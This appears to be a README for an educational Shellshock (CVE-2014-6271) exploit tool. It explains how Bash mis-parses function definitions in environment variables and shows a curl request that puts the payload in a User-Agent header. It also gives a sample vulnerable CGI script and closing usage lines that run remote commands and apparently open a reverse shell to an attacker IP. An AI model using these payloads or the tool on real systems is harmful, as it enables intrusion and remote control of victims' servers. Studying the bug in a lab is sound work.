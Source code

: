 # Shellshock - CVE-2014-6271
Link to the [CVE](https://nvd.nist.gov/vuln/detail/cve-2014-6271)

Vulnerability found in Bash versions 1.03 through 4.3 that allows attackers to execute arbitrary commands.

## How it works
Shellshock arises from Bash’s incorrect processing of commands following function definitions in environment variables, potentially exploited when user input is stored in these variables.

Bash allows defining functions within environment variables, a feature useful for passing functions to subprocesses. The vulnerability arises because Bash continues to interpret and execute commands appended after the function definition, enabling arbitrary code execution.

Example:

    export MYFUNC='() { :; }; echo "Vulnerable"'
    bash -c 'echo Test'

After invoking the second line, if the bash version is vulnerable, you'll se as output:
`Vulnerable Test`.
Bash interprets `MYFUNC` as a function but also executes the appended command (`echo "Vulnerable"`). If an attacker controls the input, they can inject malicious commands.

## Attack Vectors
ShellShock can be exploited in various contexts where Bash is used to run scripts, such as:
- **Web servers**: A server using CGI to handle HTTP requests may be vulnerable if it uses Bash to execute scripts. An attacker could inject malicious payloads in HTTP headers, such as User-Agent, Referer, or Cookie.
- **SSH**: Users with SSH access and the ability to define environment variables can exploit ShellShock.
- **Network services**: Any service that passes input to Bash for processing can be vulnerable.

### Web servers example
When a client sends an HTTP request to the web server, the server can invoke a CGI script to process the request. So the CGI script handles the request by doing other operations.

An attacker can craft a specially HTTP request containing malicious data in HTTP headers such as User-Agent, Referer, or Cookie. When the web server processes this request, it passes these headers to a CGI script that invokes Bash, which is vulnerable to ShellShock, and executes the attacker's command.

Example vulnerable cgi script that takes the input query (QUERY_STRING) from the URL and executes it:

    #!/bin/bash
    echo "Content-type: text/plain"
    echo ""
    echo "Executed command: $QUERY_STRING"

The attacker crafts an HTTP request to send to the server that includes a payload in one of the HTTP headers:
`curl -H "User-Agent: () { :; }; /bin/bash -c 'echo Vulnerable'" http://target-server/cgi-bin/vulnerable.cgi?query=test`

- `() { :; };` defines a function in the User-Agent header.
- `/bin/bash -c '...'` runs a Bash command, which echos Vulnerable

## Setting up the VM
...

## Examples
`cargo run -- --ip <VICTIM_IP> -c "ls -la"`

`cargo run -- --ip <VICTIM_IP> --rce --attacker-ip <ATTACKER_IP> -p 4444`
